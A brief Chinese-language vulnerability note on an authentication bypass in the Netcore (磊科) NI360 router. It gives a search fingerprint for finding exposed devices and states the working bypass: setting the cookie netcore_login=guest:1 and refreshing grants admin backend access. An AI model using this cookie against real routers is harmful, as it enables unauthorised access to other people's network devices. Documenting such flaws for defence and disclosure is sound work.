

# 磊科 NI360路由器 netcore_loginnetcore_login 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

<a-checkbox checked>磊科 NI360路由器</a-checkbox> 

## 网络测绘

<a-checkbox checked>title="Netcore"</a-checkbox> 

## 漏洞描述

登录页面如下

添加 Cookie字段 : `netcore_login=guest:1`，刷新后登录后台

